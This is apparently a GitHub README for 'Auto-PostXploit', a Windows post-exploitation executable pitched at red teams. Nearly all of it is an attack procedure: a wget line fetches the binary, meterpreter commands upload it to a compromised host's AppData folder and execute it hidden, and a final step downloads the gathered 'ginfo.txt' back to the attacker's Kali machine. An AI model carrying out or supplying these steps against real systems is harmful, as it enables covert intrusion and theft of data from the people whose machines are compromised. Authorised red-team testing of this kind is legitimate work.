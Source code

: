 # Auto-PostXploit
<b>Windows Auto Post Exploitation - For ReD Team</b>


* https://github.com/emilyanncr/Windows-Post-Exploitation/


## Download :


  - wget https://raw.githubusercontent.com/BehzaDMagzer/Auto-PostXploit/master/Auto-PostXploit.exe
 


## Usage :

  
   - meterpreter > upload %path%/Auto-PostXploit.exe C:/Users/*USETNAME*/AppData
  
   - meterpreter > execute -H -f C:/Users/%USERNAME%/AppData/Auto-PostXploit.exe
  
  <i>[If Auto-PostXploit.exe Not In Process]</i>
  
   - meterpreter > download C:/Users/%USERNAME%/AppData/ginfo.txt /root/Desktop
  
   - root@kali:~# cat /root/Desktop/ginfo.txt
